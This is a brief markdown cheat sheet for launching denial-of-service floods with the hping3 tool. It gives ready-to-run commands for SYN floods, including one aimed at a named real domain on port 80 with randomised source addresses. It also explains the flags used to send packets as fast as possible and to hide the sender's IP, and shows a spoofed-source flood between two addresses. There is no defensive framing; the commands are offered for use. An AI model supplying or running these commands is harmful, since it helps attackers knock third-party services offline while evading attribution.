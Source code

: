 # DOS Flood with Hping3


sudo apt install hping3 -y

`sudo hping3 -S --flood -V -p <port> <ip>`
  
Flood Using SYN Packets Against Port 80
  
`sudo hping3 lacampora.org -q -n -d 120 -S -p 80 --flood --rand-source`
  
-q: brief output
-n: shows target IP instead of host.
-d 120: sets packet size
–rand-source: hides IP address.
-S: specifies SYN packets.
–flood: replies will be ignored and packets will be sent as fast as possible.
-V: Verbosity.
-p: port
  
  
Flood From a Fake IP Address With hping3
  
`sudo hping3 -a 190.0.174.10 190.0.175.100 -S -q -p 80`
  
  
More info in article https://linuxhint.com/hping3/
